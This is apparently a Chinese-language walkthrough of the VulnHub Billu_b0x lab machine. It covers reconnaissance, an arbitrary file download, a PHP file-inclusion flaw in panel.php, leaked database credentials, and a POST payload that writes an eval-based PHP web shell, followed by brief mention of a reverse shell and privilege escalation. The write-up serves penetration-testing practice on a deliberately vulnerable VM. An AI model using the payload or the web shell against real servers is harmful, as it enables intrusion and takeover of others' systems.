 ### 环境搭建
>[https://download.vulnhub.com/billu/Billu_b0x.zip](https://download.vulnhub.com/billu/Billu_b0x.zip)   
hash:ebcb435522917a67b54274900b37c6af

### 开搞
#### 首先nmap开路    
![image](https://raw.githubusercontent.com/trialv/vulnhub_test/master/Billu_b0x/png_1.png)    
访问```http://192.168.14.149/```    
![image](https://raw.githubusercontent.com/trialv/vulnhub_test/master/Billu_b0x/png_2.png)
>向世界上最帅老男人致敬

查看HTML源码并没什么*用，SQLmap无果后遍历目录       
![image](https://raw.githubusercontent.com/trialv/vulnhub_test/master/Billu_b0x/png_3.png)    
访问```http://192.168.14.149/test.php``` 报错缺少参数```file```    
![image](https://raw.githubusercontent.com/trialv/vulnhub_test/master/Billu_b0x/png_4.png)    
尝试POST提交```file=test.php```此处为任意文件下载，将目录遍历出的文件全部下载开始代码审计。     
![image](https://raw.githubusercontent.com/trialv/vulnhub_test/master/Billu_b0x/png_5.png)    

#### 审计

主页登录成功后跳转至```panel.php```查看panel.php源码第33行起，当```load```为非add与show时可构造任意文件包含攻击   
```
if(isset($_POST['continue']))
{
	$dir=getcwd();
	$choice=str_replace('./','',$_POST['load']);
	
	if($choice==='add')
	{
       		include($dir.'/'.$choice.'.php');
			die();
	}
	
        if($choice==='show')
	{
        
		include($dir.'/'.$choice.'.php');
		die();
	}
	else
	{
		include($dir.'/'.$_POST['load']);
	}
	
}
```

文件上传验证文件后缀与文件类型，经测试无法构造绕过。
```
$image=array('jpeg','jpg','gif','png');
	if(in_array($r,$image))
	{
		$finfo = @new finfo(FILEINFO_MIME); 
	$filetype = @$finfo->file($_FILES['image']['tmp_name']);
		if(preg_match('/image\/jpeg/',$filetype )  || preg_match('/image\/png/',$filetype ) || preg_match('/image\/gif/',$filetype ))
```
#### 利用
```c.php```中找到数据库账号密码```billu/b0x_billu```,登录phpmyadmin找到用户名口令    
![image](https://raw.githubusercontent.com/trialv/vulnhub_test/master/Billu_b0x/png_6.png)    
登录成功后上传图片马到```uploaded_images/```目录下构造payload如下
```
POST /panel.php
continue=&load=uploaded_images/trial.png&trial=file_put_contents('test.php','<?php @eval($_POST[test]);?>');
```    
菜刀连接```uploaded_images/test.php```查看版本、反弹shell、提权、写入免密密匙  然后就没有然后了    
[https://www.exploit-db.com/exploits/37292/](https://www.exploit-db.com/exploits/37292/)
